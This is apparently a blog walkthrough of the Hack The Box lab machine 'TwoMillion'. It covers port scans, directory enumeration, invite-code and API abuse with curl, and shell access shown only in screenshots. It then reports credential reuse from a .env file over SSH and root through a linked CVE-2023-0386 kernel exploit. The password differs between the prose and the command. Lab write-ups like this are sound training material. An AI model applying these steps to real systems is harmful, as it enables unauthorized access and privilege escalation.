 ```yaml
---
title: Two Million
published: 2023-08-20
description: 'An in-detail writeup on how I pwned: Two Million box'
image: './TwoMillion.png'
tags: [hackthebox, linux, easy, revshells, kernel-exploit, privilege-escalation]
category: 'HackTheBox'
draft: false 
---
```



# TwoMillion

## Port Scans

```
Open 10.10.11.221:22
Open 10.10.11.221:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sC" on ip 10.10.11.221
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.80 ( https://nmap.org ) at 2023-10-05 04:02 UTC
Scanning 10.10.11.221 (10.10.11.221) [2 ports]
Discovered open port 22/tcp on 10.10.11.221 
Discovered open port 80/tcp on 10.10.11.221 

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://2million.htb/ 
``` 

* Open ports `22` - ssh / `80` - http 


## Dirsearch Results

```bash
❯ dirsearch -u http://2million.htb/ -w /opt/wordlists/web/seclists-big.txt

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 20476

Output File: /home/trevohack/.dirsearch/reports/2million.htb/-_23-10-05_10-43-05.txt

Error Log: /home/trevohack/.dirsearch/logs/errors-23-10-05_10-43-05.log

Target: http://2million.htb/

[10:43:06] Starting: 
[10:43:13] 200 -    2KB - /404
[10:43:26] 401 -    0B  - /api
[10:43:28] 301 -  162B  - /assets  ->  http://2million.htb/assets/
[10:43:49] 301 -  162B  - /controllers  ->  http://2million.htb/controllers/
[10:43:51] 301 -  162B  - /css  ->  http://2million.htb/css/
[10:44:12] 301 -  162B  - /fonts  ->  http://2million.htb/fonts/
[10:44:22] 302 -    0B  - /home  ->  /
[10:44:27] 301 -  162B  - /images  ->  http://2million.htb/images/
[10:44:31] 200 -    4KB - /invite
[10:44:35] 301 -  162B  - /js  ->  http://2million.htb/js/
[10:44:43] 200 -    4KB - /login
[10:44:43] 302 -    0B  - /logout  ->  /
[10:45:31] 200 -    4KB - /register
[10:46:38] 301 -  162B  - /views  ->  http://2million.htb/views/
```

## Web Enumeration

![website](https://i.postimg.cc/t49nCmLC/htb-2million.png)

* Browsing to `/invite` may reveal a page asking for an invite code. 

* On the site, `inviteapi.min.js` loads everytime we reload the page. 

* Beatifying the javascript code may give an output like this:

```js
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
``` 

* Running the function `makeInviteCode()` on the console or doing a curl request may reveal the following.

![invitecode](https://i.postimg.cc/P5KpLQjb/invitecode.png)

* Decrypting the found rot13 cipher shows us this

```text
In order to generate the invite code, make a POST request to /api/v1/invite/generate
 ```

* Making a POST request to the given web path gives us a code 

```bash
❯ curl -X POST 2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"Q1BFRk0tN1YwWDYtM1M0QTMtUDBXMjE=","format":"encoded"}}
``` 

* Decoding the it would give us a code `CPEFM-7V0X6-3S4A3-P0W21`

* Later on, we could head on to the website and make a user. 

![registration](https://i.postimg.cc/RFJNDrnG/registration.png)

* After, registration you will be redirected to `http://2million.htb/home`

![home-page](https://i.postimg.cc/hPBfp54b/home.png)

## Initial Access 

```bash
❯ curl -X GET \
  'http://2million.htb/api/v1' \
  -H 'Host: 2million.htb' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br' \
  -H 'Connection: close' \
  -H 'Cookie: PHPSESSID=ro74tjef9ne0g091ppuf8vjslp' \
  -H 'Upgrade-Insecure-Requests: 1' | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   800    0   800    0     0   1336      0 --:--:-- --:--:-- --:--:--  1337
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```  

* Exploring the site, I found out something really interesting

![burp1](https://i.postimg.cc/NF1LQ1DH/burp1.png)

* Later on, I found a bind shell on `/api/v1/admin/vpn/generate`

![burp2](https://i.postimg.cc/mkxtxdY4/burp2.png)

## Privilege Escalation

* After, getting a shell on the `.env` variable reveals a password `SuperDuperPass12` for user `admin`.

* Logging in via ssh

```bash
❯ sshpass -p 'SuperDuperPass123' ssh -o StrictHostKeyChecking=no admin@$VMIP 
``` 

* After, some time looking through suids, linpeas I ran `uname -a` which reveal kernel info where I found an exploit for it later on.

* [Exploit](https://github.com/sxlmnwb/CVE-2023-0386)

![root](https://i.postimg.cc/VsMJ98wk/root.png)

## Rooted! 
